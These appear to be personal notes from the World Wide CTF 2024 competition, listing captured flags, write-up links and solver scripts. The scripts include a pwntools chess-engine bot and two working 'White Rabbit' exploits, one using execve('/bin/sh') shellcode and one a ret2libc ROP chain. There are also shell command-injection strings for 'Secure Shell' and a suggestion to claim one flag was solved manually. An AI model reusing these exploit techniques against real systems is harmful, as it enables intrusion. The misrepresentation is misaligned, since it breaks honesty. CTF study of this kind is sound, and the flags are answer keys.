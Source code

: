 #### Resources
##### Links
- [Challenges](https://wwctf.com/challenges)
- [Discord Server](https://discord.com/channels/1307680160581156915/1312748679018582096)
- Write-ups
	- [Official write-ups](https://yun.ng/c/ctf/2024-wwctf) (by yun)

https://blog.regularofvanilla.com/posts/wannagame


Choose to write:
- Simpler RSA (50)
	- https://yun.ng/c/ctf/2024-wwctf/crypto/simpler-rsa
	- wwf{ju57_u53_l1br4r135}
- Secure Shell (50) - no flag
- White Rabbit (95) - no flag 
- All your base belong to us (65)
	- wwf{cyb3rch3f_d0esnt_h4v3_4ll_th3_4nsw3rs_4wg0432f}
- World Wide Flags (150)
	- wwf{d1d_y0u_u53_41_70_r34d_fl465}
	- the flag-guessing thing... just say got flag by manually answering
	- Intended solution was to implement AI



Misc: All your base belong to us
https://ahmed-naser.medium.com/world-wide-ctf-2024-forensics-challenges-f6cdfc8b017c
- simple decrypting
wwf{cyb3rch3f_d0esnt_h4v3_4ll_th3_4nsw3rs_4wg0432f}

Rust containment (274)
- has attached program
- panic!(include_str!(file!()))

Free my man pascal (476)
- !! only 8 solves (sus if write...)
- use-after-free (heap)
wwf{P4sc4l_U4f_FTW_174a3f4fa44c7bb22b}


Just lattice (brute-force)
- code on VS code



Bongcloud (153)
- no program attached with chal
```python
# Bongcloud 153

# Total solves: 95

  

from pwn import *

import chess

import chess.engine

import re

  

r = remote('chess.chal.wwctf.com', 1337)

  

r.sendline(b'\n')

r.clean()

  
  

engine_path = "./stockfish/stockfish-ubuntu-x86-64"

  

with chess.engine.SimpleEngine.popen_uci(engine_path) as engine:

while True:

fen = None

while fen is None:

line = r.recvline().strip().decode()

  

if "-" in line: # high quality FEN detection

fen = line

log.info(f"Received valid FEN: {fen}")

if "play again!" in line: # game has been won

r.sendline(b'\n')

continue

log.info(line)

  

board = chess.Board(fen)

  

result = engine.play(board, chess.engine.Limit(time=2.0))

best_move = result.move

  

log.info(f"Best move: {best_move}")

  

r.sendline(str(best_move).encode())
```


Secure Shell (50)
- echo $(/readflag)
- ls && /readflag works too

White Rabbit (95)
```python
# Solver's Script 1
from pwn import * 
shell = remote("whiterabbit.chal.wwctf.com", 1337) 
#shell = gdb.debug("./white_rabbit", "continue") 
#shell = process("./white_rabbit") shell.recvuntil(b"> ") 
binary_base = int(shell.recvline().strip(), 16) - 0x1180 
shellcode = asm(""" 
				push 0x3b # execve() 
				pop rax # $rax = execve() 
				mov rdi, 0x68732f6e69622f # $rdi = "/bin/sh" 
				push rdi # $rsp = &"/bin/sh" 
				push rsp # &"/bin/sh" 
				pop rdi # $rdi = &"/bin/sh" 
				cdq # $rdx = NULL 
				push rdx # $rsp = &0x0 
				pop rsi # $rsi = NULL 
				syscall # system call 
				""", arch="amd64") 
offset = 120 
junk = b"A" * (offset - len(shellcode)) 
payload = b"" 
payload += shellcode 
payload += junk 
payload += p64(binary_base + 0x1014) # call rax;
shell.sendlineafter(b"...\n", payload) 
shell.interactive()
```

```python
# Solver's Script 2
# Techniques: ROP chain, buffer overflow
from pwn import *

program_name = "./white_rabbit"

CRASH = 0x41414141

#p = process(program_name)
#p = remote("whiterabbit.chal.wwctf.com", 1337)

p = gdb.debug(program_name, gdbscript="", api=True)
p.gdb.Breakpoint("follow", temporary=False)
p.gdb.continue_nowait()

p.recvuntil("> ")

MAIN = int(p.recvuntil("\n")[:-1],16)
PRINTF = MAIN + 134

p.sendline(
        b"A"*8*15 +
        p64(PRINTF))

p.recvuntil("> ")
someaddr = p.recvuntil("\n")
print(f"[+] someaddr = {someaddr}")
LIBC_BASE = int(someaddr[:-1],16) - 0x1d6963

print(f"[+] LIBC_BASE = {hex(LIBC_BASE)}")

LIBC_POP_RDI = LIBC_BASE + 0x0000000000028215
LIBC_SYSTEM = LIBC_BASE + 0x000000000004dab0
LIBC_BINSH_STRING = LIBC_BASE + 0x197e34
LIBC_RET = LIBC_BASE + 0x000000000002668c

p.sendline(
        b"A"*8*15 +
        p64(LIBC_RET) +
        p64(LIBC_POP_RDI) +
        p64(LIBC_BINSH_STRING) +
        p64(LIBC_SYSTEM) +
        p64(CRASH))

p.interactive()
```